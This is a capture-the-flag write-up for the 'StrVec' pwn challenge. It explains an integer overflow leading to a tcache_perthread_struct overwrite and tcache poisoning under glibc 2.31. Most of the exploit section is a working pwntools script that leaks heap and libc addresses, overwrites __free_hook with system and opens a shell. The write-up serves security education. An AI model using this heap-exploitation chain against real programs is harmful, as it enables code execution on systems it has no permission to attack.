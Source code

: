 # StrVec

## TLDR
### Vulnerability
* Integer overflow
### How to attack
* tcache poisoning
* overwrite tcache\_perthread\_struct

## Challenge
### Description
result of file command
* Arch    : x86-64
* Library : Dynamically linked
* Symbol  : Not stripped

result of checksec
* RELRO  : Full RELRO
* Canary : Enable
* NX     : Enable
* PIE    : Enbale

libc version: 2.31
### Exploit 
At first, we can trigger integer overflow giving n = 0x7fffffff.  
Then we can free any address.  


But, we must call malloc() before calling free(), and we can only call malloc() with size 0x30.  
It makes this challenge harder exploit. It is difficult to link any address to tcache.  


To avoid this restriction, we make fake chunk which size is 0x290 that is same as tcache\_perthread\_struct, and free.  
And we also free the address of tcache\_perthread\_struct.  As a result "count" member of tcache\_perthread\_struct was overwritten to huge value(the address of heap).  
So now we can exploit with tcache poisoning attack.  

A part of exploit
```
def get(idx):
	conn.sendlineafter("> ", "1")
	conn.sendlineafter(" = ", str(idx))
	conn.recvuntil("-> ")

def create(idx, data):
	conn.sendlineafter("> ", "2")
	conn.sendlineafter(" = ", str(idx))
	conn.sendafter(" = ", data)

def exploit():
	conn.sendlineafter(": ", "name")	
	conn.sendlineafter("n = ", str(0x7fffffff))

	# heap address leak
	create(3, "\n")
	get(3)
	addr_heap = conn.recvline()[:-1]
	heap_base = u64(addr_heap+b"\x00"*(8-len(addr_heap))) - 0x2c0
	print(hex(heap_base))

	create(0, b"/bin/sh\x00"+p64(0x441)+b"\n") 			# prepare to get a shell , make fake size header
	create(1, p64(heap_base+0x2c0+0x40)+p64(heap_base+0x2c0+0x40)+b"\n")
	payload = p64(0)
	payload += p64(0x291)								# fake header
	payload += p64(0)
	payload += p64(0x291)								# fake header
	for i in range(22):
		create(21+i*6, payload[:-1])
	create(15, "\n")									# free fake chunk(size=0x440)
	get(16)												
	
	# libc address leak
	libc_unsorted = conn.recvline()[:-1]
	libc_base = u64(libc_unsorted+b"\x00"*(8-len(libc_unsorted))) - off_unsorted
	libc_free_hook = libc_base + off_free_hook
	libc_system = libc_base + off_system
	print(hex(libc_base))
	
	payload = p64(heap_base+0x3c0)
	payload += p64(heap_base+0x10)
	create(3, payload+b"\n") 		# allocate from unsorted
	create(3, payload+b"\n")
	create(4, b"\n")
	create(35, p64(libc_free_hook-0x8)+b"\n")
	create(5, b"\n")
	create(6, b"\n")
	create(7, p64(0)+p64(libc_system)+b"\n")
	conn.sendlineafter("> ", "3")	
	conn.interactive()	

if __name__ == "__main__":
	exploit()	
```

My exploit code is [solve.py](https://github.com/kam1tsur3/2021_CTF/blob/master/asis/pwn/strvec/solve.py).

## Reference

twitter: @kam1tsur3
